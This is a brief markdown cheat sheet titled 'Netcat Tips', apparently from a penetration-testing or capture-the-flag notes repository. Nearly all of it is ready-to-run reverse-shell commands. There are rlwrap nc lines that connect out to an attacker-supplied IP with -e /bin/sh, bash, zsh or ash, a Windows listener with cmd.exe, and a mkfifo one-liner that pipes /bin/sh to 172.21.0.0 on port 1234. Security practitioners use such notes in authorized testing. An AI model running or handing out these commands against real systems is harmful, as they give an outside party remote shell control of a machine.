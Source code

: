 # Netcat Tips

## rlwrap

We can use rlwrap to enable better movement in an nc shell:

Linux:

* rlwrap nc \[Your IP Address\] -e /bin/sh
* rlwrap nc \[Your IP Address\] -e /bin/bash
* rlwrap nc \[Your IP Address\] -e /bin/zsh
* rlwrap nc \[Your IP Address\] -e /bin/ash

Windows:

* rlwrap nc -lv \[localport\] -e cmd.exe

Linux netcat reverse shell:

* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2&gt;&1\|nc 172.21.0.0 1234 &gt;/tmp/f

